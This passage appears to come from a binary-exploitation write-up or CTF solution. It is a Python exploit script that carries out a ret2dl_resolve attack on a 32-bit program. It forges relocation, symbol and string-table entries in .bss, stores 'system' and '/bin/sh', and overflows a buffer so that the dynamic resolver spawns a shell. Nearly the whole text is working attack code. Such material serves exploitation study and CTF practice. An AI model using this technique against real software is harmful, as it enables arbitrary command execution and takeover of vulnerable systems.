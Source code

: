```

target.send(payload0)

# Our second scan
# This will be scanned into the start of the bss
# It will contain the fake entries for our ret_2_dl_resolve attack

# Calculate the r_info value
# It will provide an index to our dynsym entry
dynsym_offset = ((bss + 0xc) - dynsym) / 0x10
r_info = (dynsym_offset << 8) | 0x7

# Calculate the offset from the start of dynstr section to our dynstr entry
dynstr_index = (bss + 28) - dynstr

paylaod1 = ""

# Our .rel.plt entry
paylaod1 += p32(elf.got['alarm'])
paylaod1 += p32(r_info)

# Empty
paylaod1 += p32(0x0)

# Our dynsm entry
paylaod1 += p32(dynstr_index)
paylaod1 += p32(0xde)*3

# Our dynstr entry
paylaod1 += "system\x00"

# Store "/bin/sh" here so we can have a pointer ot it
paylaod1 += "/bin/sh\x00"

target.send(paylaod1)

# Our third scan, which will execute the ret_2_dl_resolve
# This will just call 0x80482f0, which is responsible for calling the functions for resolving
# We will pass it the `.rel.plt` index for our fake entry
# As well as the arguments for system

# Calculate address of "/bin/sh"
binsh_bss_address = bss + 35

# Calculate the .rel.plt offset
ret_plt_offset = bss - relplt


paylaod2 = ""

paylaod2 += "0"*44
paylaod2 += resolve                 # 0x80482f0
paylaod2 += p32(ret_plt_offset)        # .rel.plt offset
paylaod2 += p32(0xdeadbeef)            # The next return address after 0x80482f0, really doesn't matter for us
paylaod2 += p32(binsh_bss_address)    # Our argument, address of "/bin/sh"

target.send(paylaod2)

# Enjoy the shell!
target.interactive()
```
